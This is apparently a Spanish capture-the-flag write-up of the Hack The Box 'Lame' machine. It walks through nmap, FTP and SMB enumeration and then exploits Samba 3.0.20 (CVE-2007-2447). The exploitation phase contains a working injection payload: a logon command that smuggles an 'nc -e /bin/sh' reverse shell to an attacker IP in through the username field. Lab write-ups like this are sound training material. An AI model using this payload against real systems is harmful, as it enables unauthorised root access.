

🧩 **Dificultad**: Easy (Linux)  
🎯 **Dirección IP**: `10.10.10.3`  
🛠️ **Modo**: Guided Mode

## 🔍 **Fase 1: Enumeración**

### ⚡ Escaneo Nmap

```bash
nmap -sS --top-ports 1000 10.10.10.3
```



Comprobamos puertos **abiertos** y vemos lo siguiente:

```bash
- 21/tcp → FTP
    
- 22/tcp → SSH
    
- 139 y 445/tcp → SMB (samba)
```

Luego usamos escaneo con scripts:

```bash
nmap -sS -sC -sV --top-ports 1000 10.10.10.3
```



Servicios identificados:

- 🎯 **FTP**: vsftpd 2.3.4 con login anónimo habilitado.
    
- 🔐 **SSH**: OpenSSH 4.7p1
    
- 📁 **SMB**: Samba 3.0.20 (en puertos 139 y 445)

### 📎 Enumeración FTP

Probamos el acceso anónimo al FTP:

```bash
ftp 10.10.10.3
Name: anonymous
Password: (enter)
```



Resultado: no hay contenido útil en el FTP.


### 📁 Enumeración SMB

Enumeramos los recursos compartidos SMB:

```bash
smbclient -L //10.10.10.3 -N
```



Recursos mostrados:

- `print$`, `tmp`, `opt`, `IPC$`, `ADMIN$`

Nos conectamos al recurso `tmp`:




Al listar su contenido:

```bash
dir
```

vemos archivos del sistema como `.X11-unix`, `vmware-root`, etc, pero no le haremos caso.


## 💣 **Fase 2: Explotación – CVE-2007-2447 (Samba)**

Samba 3.0.20 es vulnerable a ejecución de comandos a través del campo `username` si se usa `username map script` en su configuración.

📌 Verificado con searchsploit:

```bash
searchsploit samba 3.0.20
```




Consultamos el exploit directamente:

```bash
searchsploit -x unix/remote/16320.rb
```



En el código vemos que el exploit inyecta el payload en la variable `username`, usando una línea como:



```bash
username = "/=`nohup " + payload.encoded + "`"
```

Esto confirma que podemos pasar comandos directamente por el campo `username`.

### ✅ PoC: Reverse Shell directamente tras login

Tras comprobar que se puede inyectar comandos por el campo `username`, nos conectamos directamente al recurso `tmp`:

```bash
smbclient //10.10.10.3/tmp -N
```

Y luego ejecutamos el siguiente payload desde la consola interactiva de `smbclient` :




```bash
logon "/=`nohup nc -e /bin/sh 10.10.16.84 4444`"
```



Se observa que el reverse shell **sí se conecta** correctamente:




Esto indica que, aunque el comando `logon` parece fallar por timeout, **la conexión inversa llega** y se puede trabajar con la shell abierta.

### ✅ Shell funcional y obtención de flags

Una vez obtenida la shell de root:



## 📚 Conclusiones

- El acceso FTP anónimo no ofrece nada útil.
    
- El share `tmp` en SMB permite ejecutar comandos gracias a una vulnerabilidad en `username map script`.
    
- Basta con entrar anónimamente y usar `logon "payload"` desde dentro del cliente interactivo.
    
- Aunque el payload con `nc -e` muestre `NT_STATUS_IO_TIMEOUT`, **la conexión puede ser válida** si se observa con `nc -lvnp`.
    
- Acceso root sin autenticación → se capturan ambas flags directamente.


## 📁 Recursos y exploits

- ExploitDB → [16320.rb](https://www.exploit-db.com/exploits/16320)
    
- Blog técnico → [amriunix CVE-2007-2447](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/)
    
- Shell cheat sheet → [Pentestmonkey Reverse Shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


-----------
## 🧱 Task adicional:

*Con una shell como root, podemos investigar por qué falló el exploit de VSFTPD. Nuestro escaneo inicial con `nmap` mostró cuatro puertos TCP abiertos. Pero si ejecutamos `netstat -tlnp` en la máquina víctima, veremos que hay **muchos más puertos escuchando**, incluso en `0.0.0.0` y en la IP externa de la máquina, por lo que **deberían ser accesibles desde fuera**.  

*¿Qué debe de estar bloqueando la conexión a estos puertos?*



## ¿Por qué falla el exploit de vsftpd?

Aunque vsftpd 2.3.4 es una versión con backdoor conocido, **el exploit no funciona en esta máquina**. La razón puede deberse a que hay otros puertos abiertos **localmente**, pero no accesibles desde el exterior.

### ✅ Respuesta correcta: `firewall`

Aunque hay puertos en escucha en la máquina víctima, **desde fuera** sólo vemos 4 porque el **firewall (como `iptables`) los está filtrando**. Es decir: están técnicamente abiertos, pero no accesibles remotamente.

Este firewall local puede estar limitando las conexiones entrantes desde el exterior, impidiendo la explotación de ciertos servicios como vsftpd.


## 🧪 Task 10: ¿Qué puerto se abre al activar el backdoor de VSFTPD?

Cuando se activa el backdoor de **vsftpd 2.3.4**, comienza a escuchar en el puerto:



Como nos da la info en el link de la web de la tarea anterior: 

https://0xdf.gitlab.io/2020/04/07/htb-lame.html#beyond-root---vsftpd

